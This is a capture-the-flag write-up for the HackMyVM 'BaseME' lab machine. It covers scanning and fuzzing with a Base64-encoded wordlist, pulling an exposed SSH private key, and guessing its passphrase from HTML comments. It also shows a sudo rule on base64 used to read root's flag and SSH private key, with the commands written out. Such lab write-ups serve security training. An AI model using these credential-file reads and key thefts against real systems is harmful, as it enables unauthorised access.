

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">BaseME</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.107</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **BaseME** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the host using Nmap to identify open services:

```bash
nmap -p- -sC -sV 192.168.56.107
```

#### Open Ports:
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
```

### 2. Web Service Enumeration
Accessing the web server home page on port 80 returns a raw Base64 string:

```text
QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK
```

We decode it:
```bash
echo "QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK" | base64 -d
```

```text
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

We also inspect the HTML source of the page and find the following comments:
```html
<!--
iloveyou
youloveyou
shelovesyou
helovesyou
weloveyou
theyhatesme
-->
```

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Custom Base64 Fuzzing Wordlist
Standard directory scanners yield nothing because the directories are named using Base64 strings. We need to Base64 encode each line in a standard wordlist to perform a brute-force scan.

We can run a Bash script to generate a Base64-encoded dictionary:

```bash
while IFS= read -r line
do
   echo "$line" | base64 >> dic-base64.txt
done < directory-list-2.3-medium.txt
```

### 2. Directory Fuzzing
Using our custom encoded dictionary `dic-base64.txt`, we perform a directory scan using `dirsearch`:

```bash
dirsearch -w dic-base64.txt -u http://192.168.56.107/
```

```text
[11:09:02] 200 -    2KB - /aWRfcnNhCg==
[11:09:03] 200 -   25B  - /cm9ib3RzLnR4dAo=
```

We decode the returned paths:
* `aWRfcnNhCg==` ➡️ `id_rsa`
* `cm9ib3RzLnR4dAo=` ➡️ `robots.txt`

We download `/aWRfcnNhCg==` and base64 decode it to retrieve Lucas's SSH private key (`id_rsa`):

```bash
curl -s http://192.168.56.107/aWRfcnNhCg== | base64 -d > id_rsa
chmod 600 id_rsa
```

### 3. Cracking SSH Passphrase
Attempting to log in using the SSH key prompts us for a passphrase:

```bash
ssh lucas@192.168.56.107 -i id_rsa
```

Recalling the clue `"BASE64 has the answer to all your questions"`, we Base64 encode the comments found in the HTML source code:
* `iloveyou` ➡️ `aWxvdmV5b3UK`

Using `aWxvdmV5b3UK` as the SSH key passphrase allows us to connect successfully.

```text
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
lucas@baseme:~$ 
```

We retrieve the user flag:
```bash
cat /home/lucas/user.txt
```
Output: `HMV8nnJAJAJA`

---

## ⚡ Phase 3: Privilege Escalation

### 1. Exploiting Sudo Permissions
We check our sudo privileges:

```bash
sudo -l
```

Output:
```text
Matching Defaults entries for lucas on baseme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on baseme:
    (ALL) NOPASSWD: /usr/bin/base64
```

We can run `/usr/bin/base64` as root without a password. Since `base64` can read files, we can perform an arbitrary file read vulnerability to retrieve protected root files.

### 2. Reading Root Flag and SSH Key
We read the root flag using the base64 command:

```bash
sudo base64 /root/root.txt | base64 -d
```
Output: `HMVFKBS64`

### 3. Alternative: Full Shell Takeover
We can also read the root user's private SSH key to log in directly:

```bash
sudo base64 /root/.ssh/id_rsa | base64 -d > id_rsa_root
chmod 600 id_rsa_root
ssh root@192.168.56.107 -i id_rsa_root
```

```text
root@baseme:~# whoami
root
```
